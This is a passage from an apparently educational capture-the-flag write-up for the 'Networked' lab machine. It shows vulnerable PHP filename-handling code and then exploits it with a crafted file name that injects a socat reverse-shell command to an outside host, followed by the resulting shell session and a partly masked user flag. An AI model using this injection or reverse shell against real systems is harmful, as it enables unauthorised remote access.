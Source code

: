 ```php
function getnameCheck($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  #echo "name $name - ext $ext\n";
  return array($name,$ext);
}

function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
  ```
The intended flow is that if the file is not named with a valid IP address as a prefix, then the code considers that an attack. Which means that we can control whether or not the stuff in the *if block* executes, i.e. if we pass the following command as our file name:

```console
touch "invalidfile.txt;socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.75:4444"
```

it actually gets executed as exec("nohup /bin/rm -f $path;invalidfile.txt;socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.75:4444 > /dev/null 2>&1 &");

and we get a shell, and the user flag:

```console
root@endeavour:~/htb/networked# socat file:`tty`,raw,echo=0 tcp-listen:4444  
[guly@networked ~]$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
[guly@networked ~]$ ls      
check_attack.php  crontab.guly	user.txt
[guly@networked ~]$ cat user.txt
526cfc******************7d71c5
```

## Root Flag
